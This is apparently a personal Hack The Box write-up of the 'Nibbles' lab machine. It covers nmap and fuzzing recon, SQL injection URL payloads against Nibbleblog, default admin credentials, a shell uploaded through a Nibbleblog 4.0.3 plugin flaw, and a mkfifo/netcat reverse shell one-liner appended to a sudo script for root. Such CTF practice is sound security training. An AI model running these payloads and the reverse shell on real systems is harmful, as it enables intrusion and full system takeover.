 ```yaml
---
title: "Nibbles"
date: 2024-06-06
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "nibbles", "penetration testing", "writeup", "htb"]
---
```


# Nibbles

---
OS: Linux
aliases: 
Difficulty: Easy
Note: Previously done before (root)
---
# Learned
- `sudo -l `
	- run `sudo <full path>`
- When shell is not catching, use different port 
- Enumerate (fuzz) all the directory first, then exploitation
- Look for credentials in an application
	- google `<application name> credentials`
- Search for admin page 
	- google `<application name> admin page`
- nc mkfifo is the GOAT.

# Todo 
- [ ] 
# Notes

# Enumeration
## Nmap
TCP
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
## HTTP
![[/assets/images/nibbles1.png]]

![[/assets/images/nibbles2.png]]

### `/nibbleblog/`
![[/assets/images/nibbles3.png]]

![[/assets/images/nibbles4.png]]
####  `/nibbleblog/admin/`
![[/assets/images/nibbles5.png]]

http://10.10.10.75/nibbleblog/plugins/about/plugin.bit
![[/assets/images/nibbles6.png]]

>[!info]
>nibbleblog 3.7

## Fuzzing
```sh
# subdomain
ffuf -u http://10.10.10.75 -H "Host: FUZZ.usage.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

# dir
feroxbuster -u http://10.10.10.75/nibbleblog -C 404 -A -e -S 0 --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -o nibbleblog_ferox
```

http://10.10.10.75/nibbleblog/content/private/users.xml
![[/assets/images/nibbles8.png]]

# Foothold
## SQLi
https://www.exploit-db.com/exploits/35865

![[/assets/images/nibbles7.png]]

```sh
# original 1
http://10.10.10.75/nibbleblog/index.php?page=admin' OR 1=1 -- //

# URL encoded
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1%20--%20//

# URL encoded 2 
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1;--%20-

# original 2
http://10.10.10.75/nibbleblog/index.php?idpost=admin%20OR%201=1%20--%20/

```
## Admin portal
![[/assets/images/nibbles10.png]]
![[/assets/images/nibbles9.png]]
`admin : nibbles`

![[/assets/images/nibbles11.png]]

nibbleblog version 4.0.3

## https://github.com/hadrian3689/nibbleblog_4.0.3
![[/assets/images/nibbles12.png]]

https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

![[/assets/images/nibbles13.png]]

Upload the shell to Plugins : My Image
![[/assets/images/nibbles14.png]]

Navigate to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

![[/assets/images/nibbles15.png]]

Click Image.php

![[/assets/images/nibbles16.png]]
# Privilege Escalation
## Enumeration
![[/assets/images/nibbles17.png]]
## Attempts

 
```sh
# Inserting a reverse shell one-liner in a script
echo >> monitor.sh

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f" >> monitor.sh
```

![[/assets/images/nibbles18.png]]

![[/assets/images/nibbles19.png]]
